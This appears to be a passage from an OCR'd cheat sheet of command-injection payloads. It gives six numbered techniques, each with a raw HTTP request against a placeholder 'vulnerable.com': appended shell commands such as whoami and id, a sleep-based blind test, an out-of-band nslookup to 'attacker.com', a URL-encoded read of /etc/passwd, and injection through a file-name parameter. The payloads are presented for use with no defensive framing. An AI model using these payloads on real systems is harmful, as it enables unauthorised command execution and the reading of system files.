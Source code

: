 ```http
GET /vuln.php?ip=127.0.0.1;whoami HTTP/1.1
Host: vulnerable.com
```

---

### **2. Blind Command Injection via Time Delay**
- Use `sleep`, `ping`, or `timeout` to infer execution.

```http
GET /vuln.php?user=admin; sleep 10 HTTP/1.1
Host: vulnerable.com
```

---

### **3. Out-of-Band (OOB) Injection**
- Trigger DNS or HTTP callbacks to attacker-controlled server.

```http
GET /vuln.php?cmd=nslookup attacker.com HTTP/1.1
Host: vulnerable.com
```

---

### **4. POST-Based Injection**
- Inject into form fields or body parameters.

```http
POST /submit HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded

username=admin;id
```

---

### **5. Encoded Injection**
- Use URL encoding to bypass filters.

```http
GET /vuln.php?file=%3Bcat%20/etc/passwd HTTP/1.1
Host: vulnerable.com
```

---

### **6. Injection via File Path Parameter**
- Exploit filename or path variables.

```http
GET /download?file=report.txt;ls -la HTTP/1.1
Host: vulnerable.com
```

---